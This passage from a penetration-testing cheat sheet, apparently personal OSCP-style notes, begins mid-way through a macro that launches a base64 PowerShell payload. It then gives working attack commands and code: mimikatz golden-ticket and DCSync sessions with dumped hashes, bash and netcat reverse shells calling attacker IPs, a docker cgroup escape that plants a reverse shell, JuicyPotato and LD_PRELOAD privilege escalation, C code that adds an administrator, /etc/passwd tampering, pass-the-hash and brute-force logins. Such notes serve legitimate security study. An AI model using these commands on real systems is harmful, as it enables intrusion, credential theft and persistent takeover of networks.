    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

```
PS C:\Tools\practical_tools> nc.exe -lvnp 4444
```

### Active Directory Persistence

#### Golden Tickets

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1602875587-2787523311-2599479668

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : e2b475c11da2a0748290d87aa966c327

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 75b60230a2394a812000dbfad8415965
...
```

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
User      : fakeuser
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: 75b60230a2394a812000dbfad8415965 - rc4_hmac_nt
Lifetime  : 14/02/2018 15.08.48 ; 12/02/2028 15.08.48 ; 12/02/2028 15.08.48
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'fakeuser @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24
```

```
C:\Users\offsec.corp> psexec.exe \\dc01 cmd.exe
C:\Windows\system32> whoami
corp\fakeuser
```

#### Domain Controller Synchronization

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'corp.com' will be the domain
[DC] 'DC01.corp.com' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

\*\* SAM ACCOUNT \*\*

SAM Username         : Administrator
User Principal Name  : Administrator@corp.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 05/02/2018 19.33.10
Object Security ID   : S-1-5-21-1602875587-2787523311-2599479668-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: e2b475c11da2a0748290d87aa966c327
  ntlm- 0: e2b475c11da2a0748290d87aa966c327
  lm  - 0: 913b84377b5cb6d210ca519826e7b5f5

Supplemental Credentials:
\* Primary:NTLM-Strong-NTOWF \*
  Random Value : f62e88f00dff79bc79f8bad31b3ffa7d

\* Primary:Kerberos-Newer-Keys \*
  Default Salt : CORP.COMAdministrator
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096): 4c6300b908619dc7a0788da81ae5903c2c97c5160d0d9bed85cfd5af02dabf01
  aes128_hmac (4096): 85b66d5482fc19858dadd07f1d9b818a
  des_cbc_md5 (4096): 021c6df8bf07834a

\* Primary:Kerberos \*
  Default Salt : CORP.COMAdministrator
  Credentials
    des_cbc_md5       : 021c6df8bf07834a

\* Packages \*
  NTLM-Strong-NTOWF

\* Primary:WDigest \*
  01  4ec8821bb09675db670e66998d2161bf
  02  3c9be2ff39c36efd2f84b63aa656d09a
  03  2cf1734936287692601b7e36fc01e2d7
  04  4ec8821bb09675db670e66998d2161bf
  05  3c9be2ff39c36efd2f84b63aa656d09a
...
```

## Networking

### Machines enumeration

```
arp -a
```

### **Tunneling**

Using socat ([static binaries](https://github.com/andrew-d/static-binaries))

Expose port 22 on 8888 (if 22 is only open to localhost for example)

```
socat -d -d TCP-LISTEN:8888,reuseaddr,fork TCP:localhost:22
```

Reverse tunnel :&#x20;

```bash
./chisel server -p 12312 --reverse # attacker
./chisel client 10.10.14.4:12312 R:3306:172.17.0.4:3306 #victim
mysql -uUSER -pPASSWORD -h 127.0.0.1 #attacker
```

ssh tunnel from victim to kali


```shell
# from the pivot, opens ports 1122 and 13306 on kali pointing to the remote machine 
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```



```
# add an authorized key in kali
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ajla
```


### SIP / VoIP



### tcpdump

Packets that have the _PSH_ and _ACK_ flags turned on.&#x20;

* All packets sent and received after the initial 3-way handshake will have the _ACK_ flag set.&#x20;
* The _PSH_ flag is used to enforce immediate delivery of a packet and is commonly used in interactive _Application Layer_ protocols to avoid buffering

<figure><figcaption></figcaption></figure>

_ACK_ and _PSH_ are represented by the fourth and fifth bits of the 14th byte(\[13]), respectively

Turning on only these bits would give us _00011000_, or decimal 24.

```
sudo tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```

## Reverse shell

```bash
bash -i >& /dev/tcp/10.9.6.147/4242 0>&1
nc -lvnp 4242

mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc attacker_ip 4242 1>/tmp/backpipe
```

### SQL Server

```sql
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
exec xp_cmdshell 'whoami'
# https://www.revshells.com/ powershell base64
```

### Socat Reverse Shells

```bash
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

### Socat Encrypted Bind Shells

**openssl**

* req: initiate a new certificate signing request
* \-newkey: generate a new private key
* rsa:2048: use RSA encryption with a 2,048-bit key length.
* \-nodes: store the private key without passphrase protection
* \-keyout: save the key to a file
* \-x509: output a self-signed certificate instead of a certificate request
* \-days: set validity period in days
* \-out: save the certificate to a file

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
socat - OPENSSL:10.11.0.4:443,verify=0
```

\


### Get a pseudo terminal over netcat reverse shell

<pre class="language-bash"><code class="lang-bash">python -c 'import pty;pty.spawn("/bin/bash")' # or
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z , Enter 
<strong>stty raw -echo
</strong>fg
# Enter, Enter
export TERM=xterm-256-color
</code></pre>

msfvenom : generate reverse shell #todo

## Privilege escalation

### Manual enumeration



windows

```
C:\Users\student>whoami
C:\Users\student>net user student
C:\Users\student>net user
C:\Users\student>hostname
C:\Users\student>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
# processes and services
PS Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
C:\Users\student>tasklist /SVC
C:\Users\student>ipconfig /all
C:\Users\student>route print
C:\Users\student>netstat -ano
C:\Users\student>netsh advfirewall show currentprofile
C:\Users\student>netsh advfirewall firewall show rule name=all
c:\Users\student>schtasks /query /fo LIST /v
# Enumerating Installed Applications and Patch Levels
c:\Users\student>wmic product get name, version, vendor
c:\Users\student>wmic qfe get Caption, Description, HotFixID, InstalledOn
# Enumerating Readable/Writable Files and Directories
c:\Tools\privilege_escalation\SysinternalsSuite>accesschk.exe -uws "Everyone" "C:\Program Files"
PS C:\Tools\privilege_escalation\SysinternalsSuite>Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
c:\Users\student>mountvol
# Enumerating Device Drivers and Kernel Modules
PS C:\Users\student> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
PS C:\Users\student> Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
# Enumerating Binaries That AutoElevate
c:\Users\student>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
c:\Users\student>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

```
# restart windows
shutdown /r /t 0
```

linux

```
student@debian:~$ cat /etc/issue
student@debian:~$ cat /etc/*-release
student@debian:~$ uname -a
student@debian:~$ ip a
student@debian:~$ /sbin/route
student@debian:~$ ss -anp
student@debian:~$ ls -lah /etc/cron*
student@debian:~$ cat /etc/crontab
student@debian:~$ dpkg -l
student@debian:~$ find / -writable -type d 2>/dev/null
student@debian:~$ cat /etc/fstab 
student@debian:~$ mount
student@debian:~$ /bin/lsblk
# enumerate the loaded kernel modules
student@debian:~$ lsmod
student@debian:~$ /sbin/modinfo libata
student@debian:~$ find / -perm -u=s -type f 2>/dev/null
```

### Change password

```
C:\Windows\system32> net user admin evil
```

```
student@debian:~$ openssl passwd evil
AK24fcSx2Il3I

student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```

### MySQL

raptor exploit for privesc [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

<pre class="language-bash"><code class="lang-bash">#compile the exploit code
<strong>gcc -g -c raptor_udf2.c  
</strong>#create the shared library (so)
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

xxd -p raptor_udf2.so | tr -d '\n' > raptor_udf2.so.hex
</code></pre>

```sql
set @shell = 0x[raptor_udf2.so.hex content]
select @@plugin_dir
select binary @shell into dumpfile '[ @@plugin_dir ]/raptor_udf2.so';
# select binary @shell into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
## alternative
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
##

create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/bash; chmod u+s /tmp/bash');
```

### JuicyPotato

when you have `SeImpersonate` or `SeAssignPrimaryToken` privileges

* [https://github.com/ivanitlearning/Juicy-Potato-x86](https://github.com/ivanitlearning/Juicy-Potato-x86)&#x20;
* [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)&#x20;
* [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)&#x20;

Upload JuicyPotato.exe and nc.exe


```shell
powershell.exe -ExecutionPolicy Bypass .\GetCLSID.ps1
JuicyPotato.exe -l 1337 -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9} -p c:\windows\system32\cmd.exe -a "/c C:.....\nc.exe -e cmd.exe 192.168.119.164 4242"
```


### User Account Control (UAC)

Check our integrity level

```
C:\Windows\system32> whoami /groups
```

In order to change the admin user's password, we must switch to a high integrity level even if we are logged in with an administrative user. In our example, one way to do this is through powershell.exe with the _Start-Process_ cmdlet specifying the "Run as administrator" option:

```
C:\Users\admin>powershell.exe Start-Process cmd.exe -Verb runAs
```

example

```
C:\> cd C:\Tools\privilege_escalation\SysinternalsSuite
C:\Tools\privilege_escalation\SysinternalsSuite> sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```

procmon.exe, check where the binary is editing registry

"Result" filter for "NAME NOT FOUND",

&#x20;HKEY\_CURRENT\_USER (_HKCU_) hive, which we, the current user, have read and write access to

.png>)

We will use REG ADD with the /v argument to specify the value name and /t to specify the type:

```
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

### Insecure file permission (windows)

We can run icacls, passing the full service name as an argument. The command output will enumerate the associated permissions:

```
C:\Users\student> icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user evil Ev!lpass /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```

Next, we'll cross-compile[7](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/privilege-escalation/windows-privilege-escalation-examples/insecure-file-permissions-serviio-case-study#fn7) the code on our Kali machine with i686-w64-mingw32-gcc, using -o to specify the name of the compiled executable:

```
kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

```
C:\Users\student> move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
C:\Users\student> move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe
C:\Users\student> dir "C:\Program Files\Serviio\bin\"
C:\Users\student> net stop Serviio
C:\Users\student>wmic service where caption="Serviio" get name, caption, state, startmode
C:\Users\student>whoami /priv
C:\Users\student\Desktop> shutdown /r /t 0 
C:\Users\evil> net localgroup Administrators
```

### Leveraging Unquoted Service Paths

C:\Program Files\My Program\My Service\service.exe

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

#### Windows Kernel Vulnerabilities: USBPcap Case Study

```
# version and architecture of the target operating system
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
# enumerate the drivers that are installed on the system
C:\Users\student\Desktop>driverquery /v
kali@kali:~# searchsploit USBPcap
C:\Program Files\USBPcap> type USBPcap.inf

C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat
C:\> gcc --help
gcc exploit.c -o exploit.exe
```

### SUID

#### Find suid

```bash
find / -perm -u=s -type f 2>/dev/null
```

#### Abuse python suid&#x20;

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

### **Override /etc/passwd**

generate password salt

```
openssl passwd -1 -salt ignite pass123
# $1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```

Replace

```
jessie:x:1000:1000:jessie,,,:/home/jessie:/bin/bash
```

by

```
jessie:$SALT$:1000:1000:jessie,,,:/home/jessie:/bin/bash
```

### Escape docker privileged container to be run as root





```bash
# Create new cgroup and namespace
unshare -UrmC bash
```

```bash
mount -t cgroup -o rdma cgroup /mnt
echo 1 > /mnt/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /mnt/release_agent
echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.147 4242 >/tmp/f" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /mnt/cgroup.procs"
```

### **LD\_PRELOAD**

if you see `env_keep+=LD_PRELOAD` in `sudo -l`, then, create `pe.c` :

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Then compile it using:

```bash
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, escalate privileges running

```bash
sudo LD_PRELOAD=pe.so <COMMAND> # Use any command you can run with sudo
```

## Cryptography

Get SSL certificate from pcap

```bash
binwalk capture.pcap --dd=.*
```

Check certificate

```bash
openssl x509 -in cert.der -inform DER -text
```

Standard sizes for RSA keys :

| Key size   | Key strength           |
| ---------- | ---------------------- |
| 512 bits   | Low-strength key       |
| 1024 bits  | Medium-strength key    |
| 2048  bits | High-strength key      |
| 4096 bits  | Very high-strength key |

Generate private RSA key from weak one : [https://github.com/RsaCtfTool/RsaCtfTool](https://github.com/RsaCtfTool/RsaCtfTool)

## Port Redirection and Tunneling

### RINETD

```
kali@kali:~$ sudo apt update && sudo apt install rinetd
```

```
kali@kali:~$ cat /etc/rinetd.conf
...
# forwarding rules come here
#
# you may specify allow and deny rules after a specific forwarding rule
# to apply to only that forwarding rule
#
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 216.58.207.142 80
...
```

### SSH Dynamic Port Forwarding

```
kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
kali@kali:~$ cat /etc/proxychains.conf
...

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 8080 
kali@kali:~$ sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
```

### PLINK.exe

ssh reverse tunnel after getting a shell for windows

```
C:\Tools\port_redirection_and_tunneling> plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

```
C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

### NETSH

expose another machine in the victim network

```
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

### HTTPTunnel-ing Through Deep Packet Inspection

To do this, we will create a local forward (-L) from this machine (127.0.0.1) and will log in as student, using the new password we created post-exploitation. We will forward all requests on port 8888 (0.0.0.0:8888) to the Windows Server's remote desktop port (192.168.1.110:3389):

```
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1

student@debian:~$ hts --forward-port localhost:8888 1234
hts --forward-port localhost:8888 1234

kali@kali:~$ htc --forward-port 8080 10.11.0.128:1234
```

## Password Attacks

For example, the following command scrapes the www.megacorpone.com web site, locates words with a minimum of six characters (-m 6), and writes (-w) the wordlist to a custom file (megacorp-cewl.txt):

```
kali@kali:~$ cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
kali@kali:~$ wc -l megacorp-cewl.txt
```

```
kali@kali:~$ sudo vim /etc/john/john.conf
...
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password
$[0-9]$[0-9]
...

# Mutate wordlist
kali@kali:~$ john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
```

To generate a wordlist that matches our requirements, we will specify a minimum and maximum word length of eight characters (8 8) and describe our rule pattern with -t ,@@^^%%%:

| PLACEHOLDER | CHARACTER TRANSLATION              |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Upper case alpha characters        |
| %           | Numeric characters                 |
| ^           | Special characters including space |

```
kali@kali:~$ crunch 8 8 -t ,@@^^%%%
```

#### Detect hash

```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```

#### mimikatz

run as admin

```
C:\> C:\Tools\password_attacks\mimikatz.exe
...
### enables the SeDebugPrivilge access right required to tamper with another process
mimikatz # privilege::debug
Privilege '20' OK

### elevate the security token from high integrity (administrator)
mimikatz # token::elevate

### dump the contents of the SAM database: 
mimikatz # lsadump::sam
```

```
kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

#### crackmapexec cme

```
cme smb targets.txt -u users.txt -H hashes.txt --local-auth
# with impacket
smbexec.py -hashes :ee0c207898a5bccc01f38115019ca2fb administrator@10.11.1.24
cme smb targets.txt -u users.txt -H hashes.txt
```

### Hydra

```
# get a keywords list in case of
cewl http://xxx.yyy >> cewl.txt
```

```
hydra -l ben -P /wordlists/rockyou.txt 192.168.133.52 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.133.52%2Fwp-admin%2F&testcookie=1:F=is incorrect:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -V -I
```

## Cracking

### John

have a hash.txt file containing

```
username:hash
```

then run :

```
john --wordlist=~/pentest/wordlist/rockyou.txt --format=raw-md5 hash.txt
```

word mangling: markus --> Markus1, Markus2, Markus3, MArkus, MARkus, MARKus, Markus!

```bash
john --single --format=[format] [path to file]
```

Cracking with salt

in the hash.txt file, put \[HASH]$\[SALT]

```bash
john --wordlist=~/pentest/wordlist/rockyou.txt \
    --format='dynamic=sha512($p.$s)' hash.txt
```

## Escape

Alternative to `cat` :&#x20;

```bash
cp FILE /dev/stdout
```

## Antivirus evasion

Check binary against multiple antivirus : [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)

Craft payload : [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)
